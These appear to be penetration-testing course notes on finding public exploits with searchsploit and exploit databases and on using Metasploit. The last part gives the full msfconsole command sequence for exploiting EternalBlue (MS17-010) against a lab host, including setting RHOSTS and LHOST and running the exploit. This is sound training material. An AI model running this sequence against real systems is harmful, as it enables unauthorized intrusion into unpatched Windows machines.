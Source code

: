 Once we identify the services running on ports identified from our `Nmap` scan, the first step is to look if any of the applications/services have any public exploits. Public exploits can be found for web applications and other applications running on open ports, like `SSH` or `ftp`.

# Finding Public Exploits

Many tools can help us search for public exploits for the various applications and services we may encounter during the enumeration phase. One way is to Google for the application name with `exploit` to see if we get any results:

A well-known tool for this purpose is `searchsploit`, which we can use to search for public vulnerabilities/exploits for any application. We can install it with the following command:

```bash
sudo apt install exploitdb -y
```

Then, we can use `searchsploit` to search for a specific application by its name, as follows:

```bash
searchsploit openssh 7.2
```

![[Pasted image 20220905162154.png]]
We can also utilize online exploit databases to search for vulnerabilities, like [Exploit DB](https://www.exploit-db.com), [Rapid7 DB](https://www.rapid7.com/db/), or [Vulnerability Lab](https://www.vulnerability-lab.com).

# Metasploit Primer

The Metasploit Framework (MSF) is an excellent tool for pentesters. It contains many built-in exploits for many public vulnerabilities and provides an easy way to use these exploits against vulnerable targets. MSF has many other features, like:

-   Running reconnaissance scripts to enumerate remote hosts and compromised targets
    
-   Verification scripts to test the existence of a vulnerability without actually compromising the target
    
-   Meterpreter, which is a great tool to connect to shells and run commands on the compromised targets
    
-   Many post-exploitation and pivoting tools
    

Let us take a basic example of searching for an exploit for an application we are attacking and how to exploit it. To run `Metasploit`, we can use the `msfconsole` command:

```bash
msfconsole
```

Once we have `Metasploit` running, we can search for our target application with the `search exploit` command. For example, we can search for the SMB vulnerability we identified previously:

```bash
search exploit eternalblue
```

![[Pasted image 20220905162254.png]]

We found one exploit for this service. We can use it by copying the full name of it and using `USE` to use it, we can also use the number (0 in this case).

Before we can run the exploit, we need to configure its options. To view the options available to configure, we can use the `show options` command:

```bash
show options
```

![[Pasted image 20220905162354.png]]
Any option with `Required` set to `yes` needs to be set for the exploit to work. In this case, we only have to options to set: `RHOSTS`, which means the IP of our target (this can be one IP, multiple IPs, or a file containing a list of IPs). We can set them with the `set` command:

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0
```

Once we have both options set, we can start the exploitation. However, before we run the script, we can run a check to ensure the server is vulnerable:

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > check
```

Finally, we can use the `run` or `exploit` command to run the exploit:

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > exploit
```